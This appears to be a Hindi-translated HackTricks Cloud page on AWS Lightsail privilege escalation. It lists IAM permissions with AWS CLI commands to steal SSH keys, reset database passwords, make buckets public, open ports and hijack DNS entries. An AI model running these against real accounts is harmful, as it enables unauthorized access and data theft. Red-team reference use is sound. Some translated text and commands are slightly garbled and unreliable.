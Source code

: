 # AWS - Lightsail Privesc

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PR जमा करके।

</details>

## Lightsail

Lightsail के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
यह महत्वपूर्ण है कि Lightsail **उपयोगकर्ता के नाम से IAM भूमिकाओं का उपयोग नहीं करता** है बल्कि एक AWS प्रबंधित खाते के लिए, इसलिए आप इस सेवा का दुरुपयोग नहीं कर सकते। हालांकि, इस सेवा में **संवेदनशील डेटा** जैसे कोड, API कुंजी और डेटाबेस सूचना मिल सकती है।
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

इस अनुमति से आप इंस्टेंस तक पहुंचने के लिए SSH कुंजी प्राप्त कर सकते हैं:
```
aws lightsail download-default-key-pair
```
**संभावित प्रभाव:** उदाहरणों में संवेदनशील जानकारी खोजें।

### `lightsail:GetInstanceAccessDetails`

यह अनुमति आपको उदाहरणों तक पहुंचने के लिए SSH कुंजी उत्पन्न करने की अनुमति देगी:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**संभावित प्रभाव:** उदाहरणों में संवेदनशील जानकारी खोजें।

### `lightsail:CreateBucketAccessKey`

यह अनुमति आपको बकेट तक पहुंचने की कुंजी प्राप्त करने की अनुमति देगी:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**संभावित प्रभाव:** बाल्टी में गोपनीय जानकारी खोजें।

### `lightsail:GetRelationalDatabaseMasterUserPassword`

यह अनुमति आपको डेटाबेस तक पहुंचने के लिए प्रमाणपत्र प्राप्त करने की अनुमति देगी:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**संभावित प्रभाव:** डेटाबेस में संवेदनशील जानकारी खोजें।

### `lightsail:UpdateRelationalDatabase`

यह अनुमति आपको डेटाबेस तक पहुंचने के लिए पासवर्ड बदलने की अनुमति देगी:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

यदि डेटाबेस सार्वजनिक नहीं है, तो आप इस अनुमतियों के साथ इसे सार्वजनिक भी बना सकते हैं।

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**संभावित प्रभाव:** डेटाबेस में संवेदनशील जानकारी खोजें।

### `lightsail:OpenInstancePublicPorts`

यह अनुमति इंटरनेट पर पोर्ट खोलने की अनुमति देती है।
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट तक पहुंच।

### `lightsail:PutInstancePublicPorts`

यह अनुमति इंटरनेट पर पोर्ट खोलने की अनुमति देती है। ध्यान दें कि कॉल उस पर किसी भी पोर्ट को बंद कर देगा जो इस पर निर्दिष्ट नहीं है।
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट तक पहुंच।

### `lightsail:SetResourceAccessForBucket`

यह अनुमति इंस्टेंस को किसी बकेट तक पहुंच देने की अनुमति देती है बिना किसी अतिरिक्त प्रमाण-पत्र के।

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**संभावित प्रभाव:** संवेदनशील जानकारी वाले बकेट्स तक पहुंच की संभावना।

### `lightsail:UpdateBucket`

इस अनुमति के साथ एक हमलावर अपने खुद के AWS खाते को बकेट्स पर पढ़ने की पहुंच प्रदान कर सकता है या यहाँ तक कि बकेट्स को सभी के लिए सार्वजनिक बना सकता है:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**संभावित प्रभाव:** संभावित नए एक्सेस को बकेट्स के साथ।

### `lightsail:UpdateContainerService`

इस अनुमति के साथ एक हमलावर डिफ़ॉल्ट रूप से कंटेनर सेवा से प्राइवेट ECRs तक पहुंच प्रदान कर सकता है।
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**संभावित प्रभाव:** निजी ECR से संवेदनशील जानकारी प्राप्त करें

### `lightsail:CreateDomainEntry`

इस अनुमति के साथ एक हमलावर उपनाम बना सकता है और इसे अपने खुद के आईपी पते पर पॉइंट कर सकता है (उपनाम ले लेना), या एक SPF रिकॉर्ड बना सकता है जो उसे डोमेन से ईमेल लेने की अनुमति देता है, या यहाँ तक कि मुख्य डोमेन को अपने खुद के आईपी पते पर सेट कर सकता है।
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** डोमेन का अधिकार

### `lightsail:UpdateDomainEntry`

इस अनुमति के साथ एक हमलावर उपन्यास उपन्यास बना सकता है और इसे अपने खुद के आईपी पते पर पॉइंट कर सकता है (सबडोमेन तकना), या एसपीएफ रिकॉर्ड को तैयार कर सकता है जो उसे डोमेन से ईमेल भेजने की अनुमति देता है, या यहां तक ​​कि मुख्य डोमेन को अपने खुद के आईपी पते पर सेट कर सकता है।
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** डोमेन का अधिकार लेना

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना** चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github repos में PRs सबमिट करके।

</details>
